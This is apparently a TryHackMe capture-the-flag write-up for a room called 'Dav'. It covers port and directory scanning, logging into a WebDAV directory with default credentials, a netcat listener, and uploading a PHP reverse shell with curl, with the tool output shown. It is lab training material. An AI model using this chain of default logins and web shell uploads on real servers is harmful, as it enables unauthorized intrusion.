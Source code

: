 # THM - Dav

## IP address
10.10.98.127

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.98.127
```
- Results shows that only port ```80``` is open:
```
root@kali:~# nmap -p- -sV -sC -oN nmap/initial 10.10.98.127
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-28 14:05 UTC
Nmap scan report for ip-10-10-98-127.eu-west-1.compute.internal (10.10.98.127)
Host is up (0.00060s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:B1:99:F9:9A:AE (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.22 seconds
```

2. Visiting ```10.10.98.127```, you will realised its a Apache Ubuntu default page. Lets try running gobuster:
```bash
gobuster dir -u http://10.10.98.127 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

-Results show a page called ```/webdav``` but its a ```401``` page, meaning login is probably required.
```
/webdav (Status: 401)
/server-status (Status: 403)
```

3. Some research shows that the default password for ```webdav``` is ```wampp:xampp```

4. So after logging in you will see a ```passwd.dav``` file which shows:
```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

5. After some research, seems like ```webdav``` is vunerable to reverse shell. So lets edit our handy resverse php shell from [Php Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).


6. Remember to set your listener on another terminal ```nc -lvnp 9001```.

7. Now lets run ```curl``` to remotely upload our ```shell.php```:
```bash
curl http://10.10.98.127/webdav/shell.php -u wampp:xampp --upload-file shell.php
```
-Results shows that the upload was successful:
```
root@kali:~# curl http://10.10.98.127/webdav/shell.php -u wampp:xampp --upload-file shell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/shell.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.98.127 Port 80</address>
</body></html>
```

- When we refresh our browser we will see that the directory has a new ```shell.php``` file.
